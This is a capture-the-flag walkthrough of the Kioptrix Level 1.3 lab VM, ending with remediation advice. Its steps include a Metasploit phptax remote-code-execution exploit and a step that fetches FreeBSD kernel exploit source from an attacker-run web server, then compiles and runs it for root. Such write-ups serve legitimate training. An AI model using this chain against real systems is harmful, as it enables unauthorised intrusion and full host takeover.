





# Kioptrix: Level 1.3 (#4) — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.159 |
| **Difficulty** | Medium |
| **OS** | FreeBSD |
| **Goal** | root — `/root/congrats.txt` |
| **Source** | [HackingArticles](http://www.hackingarticles.in/hack-kioptrix-vm-ctf-challenge/) |

## Attack Summary

This Kioptrix variant runs a vulnerable PHP tax application (phptax) behind a user-agent-gated HTTP service. An unauthenticated command injection in phptax grants initial shell access, which is then elevated to root via a publicly known FreeBSD 9.0 local privilege escalation kernel exploit (EDB-28718).

## Methodology

1. Recon — port scan reveals HTTP on ports 80 and 8080
2. Enumeration — user-agent bypass to access port 8080, phptax directory discovery
3. Exploitation — Metasploit phptax_exec module for command shell
4. PrivEsc — FreeBSD 9.0 kernel exploit (EDB-28718) compiled on target

---

## Step 1: Reconnaissance

```bash
netdiscover
nmap -A 192.168.1.159
```



Open ports:
- **80/tcp** — HTTP (default "it works" page)
- **8080/tcp** — HTTP (returns 403 Forbidden)

---

## Step 2: Web Enumeration

**Port 80** contains only a placeholder page. Source review reveals nothing useful.

**Port 8080** returns 403 Forbidden for all standard browsers. The server enforces a user-agent check. Use a browser extension (User Agent Switcher) or curl to set the User-Agent to Internet Explorer 6:

```bash
curl -A "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)" http://192.168.1.159:8080/
```



The response exposes a `phptax/` directory — a PHP tax filing application known to be vulnerable to remote code execution.

---

## Step 3: Exploitation — phptax RCE

```bash
msfconsole -q
msf> search phptax
msf> use exploit/multi/http/phptax_exec
msf> set rhost 192.168.1.159
msf> set rport 8080
msf> exploit
```



Result: command shell session on the target as a low-privilege user.

Verify:

```bash
id
whoami
uname -a
# FreeBSD kioptrix2014 9.0-RELEASE ...
```

---

## Step 4: Privilege Escalation — FreeBSD 9.0 Kernel Exploit

Search for a local privilege escalation exploit for FreeBSD 9.0:

```bash
# On attacker
searchsploit FreeBSD 9.0
# EDB-28718: FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation
searchsploit -m 28718
```

Start an HTTP server on the attacker machine to serve the exploit:

```bash
python3 -m http.server 80
```

On the target, `wget` is unavailable. Use the FreeBSD `fetch` utility to download the exploit source:

```bash
fetch http://192.168.1.108/28718.c
gcc -o kernel 28718.c
chmod 777 kernel
./kernel
```



Verify root:

```bash
id
# uid=0(root)
```

---

## Step 5: Read the Flag

```bash
cd /root
ls
cat congrats.txt
```



---

## Lessons Learned

- User-agent filtering is a weak access-control mechanism — any HTTP client can spoof the header in seconds.
- Running obsolete, unpatched web applications (phptax) exposes the host to trivially exploitable RCE.
- FreeBSD 9.0 reached end-of-life; kernel-level exploits exist in the public domain for years-old releases.
- When `wget` is unavailable, native OS download utilities (`fetch` on FreeBSD, `curl`, `ftp`) can substitute.
- A compromised web application running as a low-privileged user is still enough to reach root via kernel exploits when the OS itself is unpatched.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| User-agent-based access control | Enforce real authentication; never rely on client-controlled headers |
| phptax unauthenticated RCE | Remove or replace the application; apply vendor patches |
| FreeBSD 9.0 EOL kernel | Upgrade to a supported FreeBSD release with current security patches |
| No host-based IDS | Deploy an IDS/IPS to detect shell activity from web processes |
